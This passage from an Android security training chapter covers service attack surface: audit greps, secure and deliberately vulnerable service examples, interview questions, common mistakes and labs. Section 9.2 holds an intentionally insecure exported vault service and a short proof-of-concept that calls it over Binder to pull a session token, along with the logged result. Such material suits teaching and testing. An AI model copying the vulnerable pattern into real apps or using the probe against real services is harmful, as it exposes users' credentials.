    exp  = re.search(r'android:exported="([^"]+)"', s)
    perm = re.search(r'android:permission="([^"]+)"', s)
    proc = re.search(r'android:process="([^"]+)"', s)
    print("%-60s exported=%-9s permission=%-45s process=%s" % (
        name.group(1) if name else '?',
        exp.group(1) if exp else '(default)',
        perm.group(1) if perm else '-',
        proc.group(1) if proc else '-'))
PY
```

`exported=(default)` is the row to look at hardest. The default is `true` when
the element contains an `<intent-filter>` and `false` otherwise, so an absent
attribute means "read the body of the element". [32 — Manifest](../32-Manifest/README.md)
owns the complete audit, including the manifest-merger cases where a library
adds an exported service you never wrote.

### 8.2 The greps that matter

```bash
# host, over a jadx dump
# 1. every service class
grep -rln "extends Service\b" out/sources/
grep -rln "extends IntentService\|extends JobService\|extends AccessibilityService" out/sources/

# 2. every AIDL Stub -- these are the remote APIs
grep -rn "extends .*\.Stub\b" out/sources/

# 3. every service that does NOT check its caller. THIS is the finding list.
grep -rln "extends .*\.Stub\b" out/sources/ > /tmp/stubs
grep -rln "getCallingUid\|checkCallingPermission\|checkCallingOrSelfPermission\|checkSignatures\|hasSigningCertificate" out/sources/ > /tmp/checked
comm -23 <(sort /tmp/stubs) <(sort /tmp/checked)

# 4. checks in the WRONG place -- README 5.3.2
grep -rn -B8 "getCallingUid" out/sources/ | grep -E "onBind|onStartCommand|onCreate|onUnbind"

# 5. Messenger command dispatchers, and whether they authorise anything
grep -rn "new Messenger(" out/sources/
grep -rn "sendingUid" out/sources/          # empty output = nothing is authorised
grep -rn "replyTo" out/sources/             # each hit is a caller-chosen channel

# 6. capability delegation and external services
grep -rn "BIND_INCLUDE_CAPABILITIES\|BIND_EXTERNAL_SERVICE\|BIND_ABOVE_CLIENT" out/sources/

# 7. the confused-deputy window
grep -rn -A12 "clearCallingIdentity" out/sources/

# 8. the START_STICKY null-Intent bug
grep -rn -A6 "onStartCommand" out/sources/ | grep -E "intent\.(get|has)" 
```

Grep 3 is the highest-yield line in this section. It produces, directly, the
list of files that expose a Binder interface and contain no caller check
anywhere. Every entry needs a manual read; most will be either genuinely
internal (and non-exported — cross-check the manifest) or a real finding.

### 8.3 Resources and other XML

```bash
# host -- accessibility, and every other system-bound service's config
ls out/res/xml/
grep -rn "canPerformGestures\|canRetrieveWindowContent\|accessibilityEventTypes" out/res/xml/
grep -rn "android:foregroundServiceType" out/AndroidManifest.xml
```

The `res/xml` configuration files for accessibility services, autofill services,
device-admin receivers and quick-settings tiles carry the actual capability
request. The manifest tells you the *kind* of plug-in; the XML tells you *how
much power it asked for*.

### 8.4 Gradle and build configuration

```bash
# host
grep -rn "foregroundServiceType\|FOREGROUND_SERVICE" app/build.gradle* app/src/main/AndroidManifest.xml
grep -rn "targetSdk" app/build.gradle*
```

`targetSdk` decides which of the version-matrix rows in §3.16 apply. An app with
`targetSdk` 29 on an Android 14 device is not subject to the API 31 background
foreground-service restriction nor the API 34 mandatory type. **Read the
effective `targetSdk` before quoting any platform mitigation as present.**

### 8.5 What static analysis cannot tell you here

Four things, and each one has produced a wrong report:

1. **Whether the service is actually reachable.** `exported="true"` in the
   manifest is necessary, not sufficient: `onBind` can return `null`
   (measured — §3.6), the component can be disabled at runtime, or a
   `<permission>` can be redeclared at a different protection level by a
   later manifest merge.
2. **Whether the permission is effective.** The protection level of a *custom*
   permission is declared in the same manifest and is easy to check; the
   protection level of a permission declared by *another app* is not in this
   APK at all, and if that app is not installed the permission cannot be held
   by anyone. `service-recon.py` reports that case as `UNKNOWN-PERM`.
3. **What a transaction code does.** The `Stub` gives you the mapping; whether
   `getAuthToken` returns a real token or a stub value in this build is a
   runtime question.
4. **Concurrency bugs.** The AIDL race in §3.5.1 is invisible to any static read
   that assumes one caller at a time, which is every static read.

---
## 9. Examples

Five, graded. Every one is real code, and the first four have been compiled;
9.1–9.3 were installed and run on the API 30 test device.

### 9.1 Simple — a correct private started service

The smallest thing that is not wrong.

```java
// src/main/java/com/example/simple/LogUploadService.java
package com.example.simple;

import android.app.Service;
import android.content.Intent;
import android.os.IBinder;
import java.util.concurrent.ExecutorService;
import java.util.concurrent.Executors;

public class LogUploadService extends Service {

    private final ExecutorService pool = Executors.newSingleThreadExecutor();

    @Override public IBinder onBind(Intent intent) {
        return null;                     // not a bound service; say so explicitly
    }

    @Override public int onStartCommand(Intent intent, int flags, final int startId) {
        if (intent == null) {            // START_STICKY restart, or a spurious start
            stopSelf(startId);
            return START_NOT_STICKY;
        }
        final String path = intent.getStringExtra("path");
        pool.execute(new Runnable() {
            @Override public void run() {
                try { upload(path); }
                finally { stopSelf(startId); }   // startId, NOT stopSelf()
            }
        });
        return START_NOT_STICKY;         // if we die mid-upload, do not retry blindly
    }

    @Override public void onDestroy() {
        pool.shutdownNow();
        super.onDestroy();
    }

    private void upload(String path) { /* ... */ }
}
```

```xml
<!-- AndroidManifest.xml -->
<service android:name=".LogUploadService" android:exported="false"/>
```

Four decisions worth naming, because each is the opposite of a common default:

- **`android:exported="false"` and no `<intent-filter>`.** If nobody outside the
  app starts it, nothing outside the app should be able to.
- **`onBind` returns `null` deliberately.** It has to be overridden — it is
  abstract — and returning `null` is the correct answer for a started-only
  service. From API 28 a client observes this as `onNullBinding`.
- **`stopSelf(startId)`, not `stopSelf()`.** §3.2's race.
- **`START_NOT_STICKY`.** A log upload that lost its Intent has nothing to
  upload. Choosing `START_STICKY` here would guarantee a null-Intent restart
  that does nothing, forever.

### 9.2 Intermediate — the same service, exported and wrong, plus its exploit

This is the pair in [`examples/`](examples/VaultService-vulnerable.java), and the
measured exploit is in
[`examples/measured-bind-probe.txt`](examples/measured-bind-probe.txt). The
essence, in twelve lines each.

**Vulnerable:**

```java
// exported=true, no permission, no check anywhere
private final IVaultService.Stub binder = new IVaultService.Stub() {
    @Override public String getAuthToken() {
        return prefs.getString("access_token", null);
    }
    @Override public void setSyncEndpoint(String url) {
        prefs.edit().putString("endpoint", url).apply();
    }
    @Override public boolean isUnlocked() { return true; }
};
@Override public IBinder onBind(Intent i) {
    if (Binder.getCallingUid() != Process.myUid()) return null;   // inert; §3.7
    return binder;
}
```

**Exploit, from an app with one permission:**

```java
// after onServiceConnected(name, svc)
String desc = svc.getInterfaceDescriptor();        // "com.example.notesvault.IVaultService"
Parcel data = Parcel.obtain(), reply = Parcel.obtain();
data.writeInterfaceToken(desc);
svc.transact(1, data, reply, 0);                   // code 1 = first method in the .aidl
reply.readException();
Log.i("poc", "token = " + reply.readString());
```

**Measured, both sides:**

```text
CH28VAULT: onBind ... callingUid=10310                    <- its own uid
CH28VAULT: getAuthToken() called by uid=10313 pid=21583   <- the real caller
CH28    :   TOKEN-TX code=1 ok=true replyBytes=92 exception=(none)
            string='eyJhbGciOiJIUzI1NiJ9.SECRET-SESSION-TOKEN'
```

**Fixed:** [`examples/VaultService-fixed.java`](examples/VaultService-fixed.java)
— a `signature` permission in the manifest *and* `enforceSameSignature()` at the
top of every method, because the manifest gate answers a different question from
the per-method gate.

### 9.3 Advanced — a bound service that hands out different interfaces per action

A pattern worth knowing both as a defender (it is the right shape) and as a
tester (it is why a bare component bind sometimes returns nothing).

```java
// src/main/java/com/example/docs/DocService.java
public class DocService extends Service {

    static final String ACTION_READ  = "com.example.docs.READ";
    static final String ACTION_ADMIN = "com.example.docs.ADMIN";

    // Two interfaces, two capability sets. A client that only needs to read
    // never receives an object that can write.
    private final IDocReader.Stub readBinder = new IDocReader.Stub() {
        @Override public String getTitle(int id) {
            enforce(Binder.getCallingUid(), /*adminRequired=*/false);
            return store.title(id);
        }
    };

    private final IDocAdmin.Stub adminBinder = new IDocAdmin.Stub() {
        @Override public void deleteAll() {
            enforce(Binder.getCallingUid(), /*adminRequired=*/true);
            store.deleteAll();
        }
    };

    @Override public IBinder onBind(Intent intent) {
        if (intent == null || intent.getAction() == null) return null;
        switch (intent.getAction()) {
            case ACTION_READ:  return readBinder;
            case ACTION_ADMIN: return adminBinder;
            default:           return null;
        }
    }

    private void enforce(int uid, boolean adminRequired) {
        if (uid == Process.myUid()) return;
        PackageManager pm = getPackageManager();
        if (pm.checkSignatures(Process.myUid(), uid) != PackageManager.SIGNATURE_MATCH) {
            throw new SecurityException("uid " + uid + " not same-signature");
        }
        if (adminRequired
                && checkPermission("com.example.docs.permission.ADMIN",
                                   Binder.getCallingPid(), uid)
                   != PackageManager.PERMISSION_GRANTED) {
            throw new SecurityException("uid " + uid + " lacks ADMIN");
        }
    }
}
```

Three things to notice.

**Selecting on the action is legitimate and is not a security control by
itself.** Any caller can write any action. The security comes from `enforce()`;
the action only narrows what an *authorised* caller receives. Do not let a
developer tell you the switch is the control.

**Two `IntentBindRecord`s will exist**, one per action, exactly as measured on
the live device in §4.4 with GMS's broker service. Each is separately cached, so
`onBind` runs once per action, not once per client.

**For a tester, this is why a bare component bind can come back empty.** A
component-only Intent has no action, so `onBind` returns `null` and
`onServiceConnected` never fires — which is exactly the `KeyChainService`
behaviour measured in §3.6. When that happens, go and get the actions from the
manifest or from `dumpsys package r`, and bind again with one.

### 9.4 Real application — auditing a shipping device's service surface

The workflow, end to end, as it was actually run for this chapter.

```bash
# 1. host -- rank everything
python3 scripts/service-recon.py --weak > weak.txt
python3 scripts/service-recon.py --open > open.txt
```

Measured result on the test device: 839 services reachable by an intent action,
of which **325 OPEN**, **16 WEAK-PERM**, 1 DANGEROUS, 108 SIGNATURE, 76
SYSTEM-BIND, 287 NOT-EXPORTED, 24 DISABLED — across 94 packages.

```bash
# 2. host -- triage the WEAK-PERM set first. Sixteen rows, each one a developer
#    who wrote a permission that does not work.
grep WEAK weak.txt
```

Five of the sixteen were guarded by `android.permission.INTERNET`
(`protectionLevel=normal|instant`), which every app on the device holds. That is
a one-line finding with a one-word fix and it is worth more report space than the
325 open ones.

```bash
# 3. host -- bind a shortlist and see what actually answers
adb shell am start -n com.pentest.ch28probe/.ProbeActivity \
  --es targets 'com.android.keychain/com.android.keychain.KeyChainService,com.miui.analytics/com.miui.analytics.AnalyticsService'
adb logcat -d -s CH28
```

```text
BIND-RETURN com.android.keychain/...KeyChainService  => true   (never connected)
BIND-RETURN com.miui.analytics/...AnalyticsService   => true
CONNECTED   com.miui.analytics/...  descriptor='com.miui.analytics.ICore'
```

**And this is where the audit stops for `KeyChainService`.** It is `OPEN` in the
table, it is the system credential store, and it cannot actually be reached with
the Intent we sent. Writing it up as critical on the strength of
`bindService → true` would have been wrong, and it is the single most useful
negative result in the whole capture.

```bash
# 4. host -- for the ones that DO connect, get the code
adb shell pm path com.miui.analytics
adb pull /system/.../MiuiAnalytics.apk
jadx -d out/ MiuiAnalytics.apk
grep -rn -A40 "extends ICore.Stub\|ICore\$Stub" out/sources/
```

```bash
# 5. host -- watch a live call to confirm what the code implies
frida -U -n com.miui.analytics -l scripts/trace-service-lifecycle.js --runtime=v8
```

The report that comes out of this has three sections, in this order: **controls
observed** (the 76 `SYSTEM-BIND` and 108 `SIGNATURE` services, named), **findings
with demonstrated effect**, and **surface worth reducing** (the open services
with no demonstrated effect, listed as a hardening recommendation rather than a
vulnerability). Putting controls first is not politeness; it is what stops the
reader discounting the middle section.

### 9.5 Enterprise — a service designed to survive being attacked

What "good" looks like when the requirement is genuinely "another app must call
us", and the untrusted input is genuinely untrusted.

```xml
<!-- AndroidManifest.xml -->

<!-- 1. A signature permission, and knownSigner for the partner app whose key
        differs. API 31+; below that, verify in code with hasSigningCertificate. -->
<permission
    android:name="com.example.render.permission.RENDER"
    android:protectionLevel="signature|knownSigner"
    android:knownCerts="@array/partner_certs"/>

<!-- 2. The public front door: exported, permission-gated, thin. -->
<service
    android:name=".RenderGateway"
    android:exported="true"
    android:permission="com.example.render.permission.RENDER"
    android:process=":gateway"/>

<!-- 3. The parser, in an ISOLATED process. Not exported: only the gateway
        binds it, and it runs with no uid, no permissions, no network and no
        data directory. See 21-App-Sandbox section 3.7. -->
<service
    android:name=".PdfParserService"
    android:isolatedProcess="true"
    android:useAppZygote="true"
    android:exported="false"/>
```

```java
// RenderGateway -- the front door. Authorise, then delegate.
private final IRenderGateway.Stub binder = new IRenderGateway.Stub() {

    @Override
    public ParcelFileDescriptor renderFirstPage(ParcelFileDescriptor input) {
        final int callerUid = Binder.getCallingUid();     // captured HERE, on the
        enforce(callerUid);                               // Binder thread

        // The caller opened the file with the CALLER's permissions and handed
        // us a descriptor. We never take a path. There is no privilege to
        // confuse, so there is no confused deputy. 25-Binder section 3.7.4.
        return parserPool.submitAndWait(input, callerUid);
    }
};

private void enforce(int uid) {
    if (uid == Process.myUid()) return;
    PackageManager pm = getPackageManager();
    for (String pkg : pm.getPackagesForUid(uid)) {        // sharedUserId: several
        if (ALLOWED.contains(pkg)
                && pm.checkSignatures(Process.myUid(), uid)
                   == PackageManager.SIGNATURE_MATCH) {
            return;
        }
    }
    throw new SecurityException("uid " + uid + " not authorised");
}
```

```java
// PdfParserService -- runs isolated. It can be fully compromised and the
// attacker gains a process with no data, no permissions and no network.
public class PdfParserService extends Service {
    private final IPdfParser.Stub binder = new IPdfParser.Stub() {
        @Override public ParcelFileDescriptor render(ParcelFileDescriptor in,
                                                     ParcelFileDescriptor out) {
            // No caller check needed: this service is not exported and the only
            // process that can reach it is our own gateway. Saying so in a
            // comment is part of the design, so the next maintainer does not
            // "fix" it by exporting it.
            return nativeRender(in, out);
        }
    };
    @Override public IBinder onBind(Intent i) { return binder; }
    private native ParcelFileDescriptor nativeRender(ParcelFileDescriptor a,
                                                     ParcelFileDescriptor b);
}
```

The properties that make this defensible, each mapped to a section:

| Property | Why | Section |
|---|---|---|
| Signature-level permission, with `knownSigner` for the partner | The manifest gate is real, and future key rotation was anticipated | §5.3.3 |
| Per-method `getCallingUid()` in the gateway | The manifest gate is coarse and one-shot; this is the one that survives a merge accident | §3.8 |
| UID captured on the Binder thread, passed down | Not read later on a worker thread, where it would be meaningless | §5.3.2 |
| `ParcelFileDescriptor` in, not a path | The caller's own permissions decided what could be opened | §5.3.5 |
| Parsing in `isolatedProcess` | Memory-safety bugs in the parser land in a process with nothing in it | §3.11 |
| `useAppZygote` | Many parses, shared preloaded native pages | §3.11 |
| Gateway in `:gateway`, parser isolated | A crash in either does not take the app down | §3.12 |
| No `clearCallingIdentity` anywhere | Nothing here needs to act with more privilege than the caller has | §5.3.5 |

> **🔍 Pentester's Note**
> When you meet this design in the field, **say so in the report, by name**.
> `android:isolatedProcess="true"` on a parser is a deliberate, informed
> engineering decision that most teams never make, and
> [21 §3.7](../21-App-Sandbox/README.md) is explicit that it belongs in a
> "controls observed" section. A report that only ever lists problems trains the
> client to read it as an adversarial document, and your genuine findings land
> softer as a result.

---

## 10. Common Interview Questions

### Beginner

**Q. What is the difference between a started service and a bound service?**
A started service is a fire-and-forget command: `startService()` delivers an
`Intent` to `onStartCommand()` and there is no channel back. It runs until it
stops itself or somebody stops it. A bound service is a connection:
`bindService()` causes `onBind()` to run and hands the client the returned
`IBinder`, on which the client makes direct calls. It lives while clients are
bound. One service object can be both at once, and it is not destroyed until
*both* claims are released — which is why `stopSelf()` sometimes appears to do
nothing.

**Q. Does a service run on a background thread?**
No. It runs on the main thread of its process, like an Activity. Blocking it
freezes the UI and produces an ANR after five seconds. You must create your own
thread or executor.

**Q. What does `onStartCommand` return, and why does it matter?**
One of `START_STICKY`, `START_NOT_STICKY`, `START_REDELIVER_INTENT` or
`START_STICKY_COMPATIBILITY`. It tells the system what to do if the process is
killed while the service is running. `START_STICKY` recreates the service and
calls `onStartCommand` again **with a null Intent**, which is the source of a
very common crash.

**Q. Is a "foreground service" in the foreground?**
No. The name is about **process importance**, not the screen. It has no UI and
does not appear in recents. The user sees a notification, which is the price of
the priority.

**Q. What is a sticky service?**
Informally, one whose `onStartCommand` returns `START_STICKY`, so the system
recreates it after a kill. Two caveats: the Intent is not preserved, and OEM
power management may refuse the restart entirely — measured on the MIUI test
device, where `AutoStartManagerService` logged `Reject RestartService`.

### Intermediate

**Q. When would you use `Messenger` instead of AIDL?**
When you want a simple command channel, do not need synchronous return values,
and want serialisation for free. `Messenger` posts every message to one
`Handler` thread, so no two handlers overlap and shared state needs no locking.
AIDL is typed, has return values, and is dispatched concurrently on the Binder
thread pool — faster, and it makes you responsible for thread safety.

**Q. `android:exported` on a service — what is the default?**
`true` if the element contains an `<intent-filter>`, `false` otherwise. From API
31, an explicit value is mandatory when a filter is present or the app fails to
install. The trap is that adding a filter for the app's own convenience silently
flips the default.

**Q. How does a service know who is calling it?**
`Binder.getCallingUid()` — but **only inside a method of the `IBinder` it
returned**. In `onBind`, `onStartCommand` and every other lifecycle callback it
returns the service's own UID, because those run on the main thread with no
transaction in flight. For `Messenger`, the equivalent is `msg.sendingUid`,
which the framework fills in from the Binder caller UID inside
`Handler$MessengerImpl.send`.

**Q. What does `BIND_AUTO_CREATE` do?**
Creates the service if it is not already running. Without it, binding to a
service that does not exist does nothing and no callback ever arrives.

### Senior

**Q. Walk me through what happens between `bindService()` and
`onServiceConnected()`.**
`ContextImpl.bindServiceCommon` converts the `ServiceConnection` into an
`IServiceConnection` via `LoadedApk.getServiceDispatcher`, then calls into
`ActivityManagerService`. `ActiveServices.bindServiceLocked` resolves the Intent
as the calling UID (package-visibility filtering happens here), checks
`exported`, checks `android:permission`, applies background-start policy, and
creates or finds the `ServiceRecord`, `IntentBindRecord`, `AppBindRecord` and
`ConnectionRecord`. With `BIND_AUTO_CREATE` it starts the process if needed and
schedules creation. In the target, `ActivityThread.handleCreateService` runs
`onCreate` and `handleBindService` runs `onBind`, then calls `publishService`.
`ActiveServices.publishServiceLocked` walks the connections and calls
`connected()`, which lands in the client's dispatcher and finally in
`onServiceConnected`. After that, every call is direct, and `system_server` is
not involved.

**Q. Why is a caller check in `onBind` useless, precisely?**
Because `onBind` is invoked by `ActivityThread` from a message posted in
response to `scheduleBindService`, on the app's own main thread. There is no
client Binder transaction in flight at that point, so `IPCThreadState`'s calling
identity is not the client's and `Binder.getCallingUid()` falls back to
`Process.myUid()`. Measured: a service at uid 10310 saw `callingUid=10310` while
the actual binder was uid 10313.

**Q. An exported service is guarded by a custom permission. Is that enough?**
Only if the protection level is `signature` (or `signature|knownSigner`). A
`normal` permission is granted at install to anything that asks, so it is
equivalent to no permission. Measured on a stock device: 16 exported services
were guarded by a `normal`-level permission, five of them by
`android.permission.INTERNET`.

**Q. You bind a service and `bindService` returns `false` with no exception.
What happened?**
Almost certainly package-visibility filtering — your app targets API 30+ and
cannot see the target package, so resolution returned `null` and the platform
reported "not found". Add `QUERY_ALL_PACKAGES` or a `<queries>` entry and re-run
before concluding anything. A `SecurityException` would mean a real refusal;
silence means invisibility.

### Staff Engineer

**Q. A team wants RPC between two of their apps and is currently using
`ContentProvider.call()`. What do you recommend, and what does it cost them?**
Move to a bound service with an AIDL interface. They gain a reviewable schema
(the `.aidl` file *is* the API surface, whereas `call()` scatters it through a
`switch` and is invisible in the manifest), typed arguments that fail at
unmarshalling rather than three layers down, `Binder.getCallingUid()` in a place
where it works, lifetime control, and `oneway` for calls that need no reply. It
costs them: more code, discipline about method ordering (appending is safe,
reordering is a silent wire-format break), and asynchrony at bind time. If the
two apps ship together, are signed with the same key, and the surface is one or
two methods, a `signature`-level permission on the provider is a perfectly good
answer and the migration is not worth it. Say that in the report; a
recommendation that ignores cost gets deprioritised.

**Q. Your AIDL service keeps a `HashMap` of sessions and you are seeing
duplicate entries in production but never in testing. Why?**
AIDL methods are dispatched on the Binder thread pool, so two clients — or one
client with two threads — run the same method simultaneously. A
check-then-insert on a plain `HashMap` races. It never reproduces in testing
because tests call sequentially, and it never reproduces in-process because
`Stub.asInterface` short-circuits to the real object with no marshalling. Either
synchronise properly or use `Messenger`, which serialises onto one thread.

**Q. What is Binder reentrancy and why should a service author care?**
If your service, while handling a call, makes an outgoing Binder call and the
remote side calls back into you on the same transaction chain, the kernel may
deliver that inbound call to the *same thread that is blocked waiting* — so your
code re-enters while holding whatever locks it took. This produces deadlocks and
inconsistent state in code that reads as single-threaded. It bit this chapter's
own Frida script: resolving a UID to a package name from inside an
`execTransact` hook made a Binder call to `system_server` from a Binder pool
thread, and the target simply stopped answering.

### Principal Engineer

**Q. Design the review rule that would have caught the `onBind` check across a
1,000-engineer codebase.**
A lint rule, not a policy. `Binder.getCallingUid()` or
`checkCallingPermission()` appearing anywhere in the body of a method declared
in `android.app.Service` — `onBind`, `onCreate`, `onStartCommand`, `onUnbind`,
`onRebind`, `onDestroy`, `onTaskRemoved` — is an error, with a message that
names the correct location. The converse rule is harder and more valuable: an
`IInterface.Stub` subclass with a method that reaches a field or a
`SharedPreferences`/database call without a preceding call into an approved
`enforce*` helper is a warning. Both are cheap; the second needs a small
allow-list of approved helpers, which is itself a useful artefact because it
makes "how do we authorise callers" a single reviewed decision rather than 400
independent ones. Neither rule can be a policy document, because the failure
mode here is not ignorance — the developer *knew* to check — but placement.

**Q. Argue for and against `isolatedProcess` as a default for third-party SDK
code.**
For: it converts an SDK compromise from "attacker has your UID, your data
directory, your permissions and your network" into "attacker has a process with
none of those", and the platform relies on it for exactly this in WebView
renderers and media codecs. Against: an isolated process has no network, no
storage and almost no Binder access, which most SDKs need to function — an
analytics SDK that cannot reach the network is not an analytics SDK. The honest
position is that `isolatedProcess` is the right answer for **parsers and
codecs**, where the input is untrusted and the output is a value, and the wrong
answer for SDKs that need ambient capability. For those, the SDK Runtime (API
34) is the platform's answer and it is opt-in and partially adopted; see
[21 §3.8](../21-App-Sandbox/README.md). The design question to push on is not
"should we isolate the SDK" but "why is the SDK in our address space at all".

**Q. You have to give a number to "325 exported services on this device". What
number, and how do you defend it?**
No number, and defending that is the answer. 325 is a count of doors, not of
findings; on the same device, one of the most alarming-looking entries
(`KeyChainService`) could not actually be connected to. The defensible
deliverables are: a count of services with a *demonstrated* effect, each with the
method named and the effect reproduced; a count of services with an ineffective
permission, which is a distinct and cheap-to-fix class; and a surface-reduction
recommendation for the remainder, explicitly labelled as hardening rather than
vulnerability. Any metric that treats "exported" as the unit will be gamed by
setting `exported="false"` on things that were never reachable anyway, and will
miss the service that is correctly exported and hands out a session token.

---

## 11. Common Mistakes

### 11.1 Developer mistakes

| Mistake | Consequence | Fix |
|---|---|---|
| Adding an `<intent-filter>` for internal convenience | `exported` silently defaults to `true` | Set `android:exported` explicitly. From API 31 you must |
| The caller check in `onBind` or `onStartCommand` | The check compares the app against itself and always passes | Check inside each `Stub` method. §3.8 |
| Reading `getCallingUid()` on a worker thread | Returns the app's own UID; the transaction is over | Capture it on the Binder thread, pass it down |
| A custom permission at `protectionLevel="normal"` | Any app can hold it. It is not a gate | `signature`, or `signature\|knownSigner` |
| `android:permission="android.permission.INTERNET"` | Every app holds `INTERNET` | As above. Measured five times on one device |
| Doing work on the main thread in `onStartCommand` | ANR | Executor or `JobIntentService`/`WorkManager` |
| `stopSelf()` instead of `stopSelf(startId)` | A second start's work is discarded | `stopSelf(startId)` |
| `START_STICKY` plus `intent.getExtra()` on line 1 | NPE on every low-memory restart, never in testing | Null-check `intent` first |
| `startForeground()` behind a branch | 5-second deadline missed; the app is killed by the system | Call it unconditionally on the first line |
| Per-client state built in `onBind` from extras | `onBind` is cached per filter-equal Intent; client B gets client A's object | One stateless binder, per-method checks |
| Replying to `msg.replyTo` | Data goes to a channel the caller chose | Reply only to a registered channel, or use AIDL |
| Mutable state in an AIDL implementation with no synchronisation | Races between concurrent callers | Synchronise, or use `Messenger` |
| `clearCallingIdentity()` around the whole method | Confused deputy | Capture the UID first; narrow the window. [25 §3.12](../25-Binder/README.md) |
| Assuming `android:process=":x"` is a boundary | Same UID, same data directory | It is not a boundary. [21 §3.12](../21-App-Sandbox/README.md) |

### 11.2 Pentester mistakes

| Mistake | Why it is wrong | Do instead |
|---|---|---|
| **Reporting "exported service" with no demonstrated effect** | It is a configuration, not a vulnerability. Many exports are deliberate | Bind, call, show the effect. §5.7 |
| Trusting `bindService() == true` | Measured: `KeyChainService` returns `true` and never connects | Wait for `onServiceConnected` |
| Reading `bindService() == false` as "protected" | On API 30+ it is usually package visibility, and it is silent | Add `QUERY_ALL_PACKAGES` or `<queries>` and re-run. §3.6.1 |
| Testing only from `adb shell` | The shell is exempt from package visibility and has different SELinux and permission context. There is no `am bind-service` | Use a real app. [`examples/attacker-app/`](examples/attacker-app/ProbeActivity.java) |
| Concluding "not reachable" from an `am start-service` failure | On API 30 that frequently fails with `Error: app is in background`, which is the API 26 restriction, not a control | Bind instead, or foreground the app first |
| Grading every finding by the export | Severity is a property of the method | Grade by the most dangerous reachable method |
| Ignoring the `WEAK-PERM` set | 325 open services swamp the 16 that a developer tried and failed to protect | Triage `WEAK-PERM` first; it is specific and cheaply fixed |
| Filing accessibility abuse as a CVE | It is a platform capability used as designed by an app the user enabled | Threat-model item, plus concrete missing defences |
| Not reporting `isolatedProcess` when you see it | Reports that only list problems get discounted | Controls-observed section. [21 §3.7](../21-App-Sandbox/README.md) |
| Testing sticky restart on an OEM ROM without checking | Measured: MIUI refused the restart entirely | State the device; re-measure on AOSP |

### 11.3 Reverse engineer mistakes

| Mistake | Why it is wrong |
|---|---|
| Looking for the Binder object in the `Service` class | It is almost always an anonymous inner class — `VaultService$1` in the measured trace |
| Assuming obfuscation hid the API | The descriptor string and the transaction codes are the wire format and must survive. §6.6 |
| Trusting `apktool`'s reconstructed `android:exported` | Absence in the output is not absence in the original. Confirm with `pm query-services -n` |
| Reading only the manifest for accessibility capability | The manifest says *what kind*; `res/xml/*.xml` says *how much power*. §6.3 |
| Reading `Parcel` arguments inside an `onTransact` hook | It moves the read cursor and breaks the dispatch that follows. Hook the typed method instead. §7.5 |
| Ignoring `descriptor=''` | An empty descriptor means a raw `Binder` with no interface token — every code is reachable with an empty parcel, which is the *more* interesting case |
| Assuming method order in the `.aidl` is documentation | It **is** the wire format. Reordering silently breaks clients and is a real (and hard to spot) bug class |

---

## 12. Hands-on Labs

Five labs of increasing difficulty. Every one runs on an API 30 device; labs 2,
3 and 5 need an app that can be installed, so read the
`INSTALL_FAILED_USER_RESTRICTED` note in §7.6 first if your device refuses `adb
install`.

| Lab | Objective | Needs |
|---|---|---|
| [Lab 01 — Map the service surface](labs/lab-01-map-the-service-surface.md) | Enumerate every service on a real device, rank by reachability, and separate the controls from the leads. No app, no root | `adb` only |
| [Lab 02 — Bind from an unprivileged app](labs/lab-02-bind-from-an-unprivileged-app.md) | Build the prober, bind four real services, get four different outcomes, and prove one of them is a false positive | build tools, install |
| [Lab 03 — The check that does nothing](labs/lab-03-the-check-that-does-nothing.md) | Build the vulnerable vault, demonstrate the `onBind` identity trap from both sides with Frida, then fix it and prove the fix | build tools, Frida, root |
| [Lab 04 — Lifecycle, foreground and the restart that did not happen](labs/lab-04-lifecycle-and-foreground.md) | `START_STICKY` versus `START_NOT_STICKY` under a real kill, the 5-second promotion deadline, and the OEM behaviour that breaks the textbook answer | `adb`, build tools |
| [Lab 05 — CTF: The Silent Door](labs/lab-05-ctf-the-silent-door.md) | Four flags. A service that answers only to the right Intent, a raw `Binder` with no descriptor, a `Messenger` with a `replyTo` leak, and one deliberate false positive you must *not* report | everything above |

Lab 05's fourth flag is the one that matters: it is awarded for correctly
identifying a service that looks exploitable and is not, and for writing the
sentence that says why.

---

## 13. Summary

### Key points

- A service is a **claim on process lifetime** plus an **addressable entry
  point**. It is not a thread and not a process; it runs on the main thread.
- Three shapes: **started** (fire-and-forget `Intent` to `onStartCommand`),
  **bound** (a real Binder channel from `onBind`), **foreground** (a started
  service that traded a notification for priority). Started and bound are
  independent claims; both must be released before `onDestroy`.
- `onStartCommand`'s return value decides post-kill behaviour. `START_STICKY`
  restarts with a **null Intent**; `START_REDELIVER_INTENT` keeps a copy of your
  Intent inside `system_server`.
- `system_server` checks **the act of binding**, once. It never checks what you
  do with the binding. Every per-call control is written by the developer.
- **`Binder.getCallingUid()` is meaningful only inside a method of the `IBinder`
  you returned.** In `onBind`, `onStartCommand` and every other lifecycle
  callback it returns your own UID — measured: a service at uid 10310 saw
  `callingUid=10310` while the binder was uid 10313.
- **AIDL is concurrent and reentrant; `Messenger` serialises onto one thread.**
  That difference is a real bug source, and `Messenger`'s `msg.replyTo` is an
  attacker-chosen reply channel that a correct `sendingUid` check does not close.
- The interface descriptor is **disclosed on request** to anyone holding the
  binder, and the interface token is a name tag, not a lock.
- On API 30+, `bindService` returning **`false` with no exception** is almost
  always package-visibility filtering, not a control. It is the leading cause of
  false negatives in service testing.
- `isolatedProcess` is a genuine sandbox reduction and one of the few **positive**
  findings a tester can report. Measured live on the test device in both UID
  ranges: 99000+ and, for App-Zygote children, 90000+.
- Accessibility, notification-listener, input-method and VPN services are
  manifest lines that grant enormous capability. They are correctly built when
  guarded by a `BIND_*` permission only the system holds — 76 such services on
  the test device.
- **An exported service is a lead. The finding is what a caller can make it do.**

### Mind map



### Condensed cheat sheet

| Question | Answer |
|---|---|
| Default `exported` | `true` with an `<intent-filter>`, else `false`. Mandatory from API 31 |
| Where does the caller check go | Inside each `Stub` method. Nowhere else works |
| `Messenger` equivalent | `msg.sendingUid` (API 21+), `msg.sendingPid` (API 29+) |
| `bindService` returns true, no connection | `onBind` returned `null`. `onNullBinding` from API 28 |
| `bindService` returns false, no exception | Package visibility. Add `QUERY_ALL_PACKAGES` |
| `bindService` throws `SecurityException` | Not exported, or `android:permission` not held |
| Get the interface with no APK | `IBinder.getInterfaceDescriptor()`, code `1598968902` (`'_NTF'`) |
| Transaction codes | Method order in the `.aidl`, from 1 |
| Empty-parcel probe → `SecurityException: incorrect interface` | It is an AIDL `Stub`; write the token |
| Empty descriptor | Raw `Binder`; no token enforced; sweep codes |
| Foreground promotion deadline | 5 seconds after `startForegroundService` |
| Isolated UID ranges | 99000–99999; 90000–98999 with `useAppZygote` |
